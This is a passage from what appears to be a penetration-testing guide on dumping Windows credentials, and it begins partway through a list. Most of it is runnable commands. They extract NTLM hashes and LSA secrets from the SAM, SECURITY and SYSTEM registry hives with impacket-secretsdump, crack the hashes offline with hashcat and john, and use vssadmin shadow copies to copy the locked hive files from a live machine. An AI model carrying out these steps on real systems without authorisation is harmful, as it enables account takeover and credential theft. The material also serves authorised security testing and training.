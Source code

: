 3. Extract NTLM Hashes from the SAM Database:
   Use `impacket-secretsdump` to extract NTLM hashes from the registry hives. This tool decrypts the SAM database using the SYSTEM hive's boot key and extracts the hashes for all local user accounts.

    ```bash
    impacket-secretsdump -sam C:\temp\SAM -security C:\temp\SECURITY -system C:\temp\SYSTEM LOCAL
    ```

   - If you only have the SAM and SYSTEM hives, the command can still extract local user account NTLM hashes. However, including the SECURITY hive allows you to extract additional credentials like LSA secrets.

4. Offline Hash Cracking: 
   After extracting NTLM hashes, you can attempt to crack the passwords using tools such as `hashcat` or `john the ripper`. NTLM hashes are presented in the format:
   
    ```plaintext
    username:rid:lmhash:nthash:::
    ```

   - Cracking NTLM hashes with hashcat: Use the following command to perform a dictionary attack on the extracted NTLM hashes. In this case, the `-m 1000` option specifies the NTLM hash type.

    ```bash
    sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
    ```

   - Cracking NTLM hashes with john the ripper: Similarly, you can use `john` to crack NTLM hashes with a wordlist.

    ```bash
    john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```

#### Volume Shadow Copy Service (VSS)
If the SAM and SYSTEM files are locked or in use, you can bypass this restriction by using the Volume Shadow Copy Service (VSS) to create a shadow copy of the system. This allows you to access these files while the system is running.

1. Create a Volume Shadow Copy:
   - Use `vssadmin` to create a shadow copy of the system drive:
   ```powershell
   vssadmin create shadow /for=C:
   ```

2. Find the Path to the Shadow Copy:
   - List all shadow copies to identify the path to the newly created shadow copy:
   ```powershell
   vssadmin list shadows
   ```

3. Copy the SAM, SYSTEM, and SECURITY Files from the Shadow Copy:
   - Use PowerShell to copy the files from the shadow copy to a temporary directory for further analysis:
   ```powershell
   Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<Shadow_ID>\Windows\System32\config\SAM" C:\temp\SAM
   Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<Shadow_ID>\Windows\System32\config\SYSTEM" C:\temp\SYSTEM
   Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<Shadow_ID>\Windows\System32\config\SECURITY" C:\temp\SECURITY
   ```
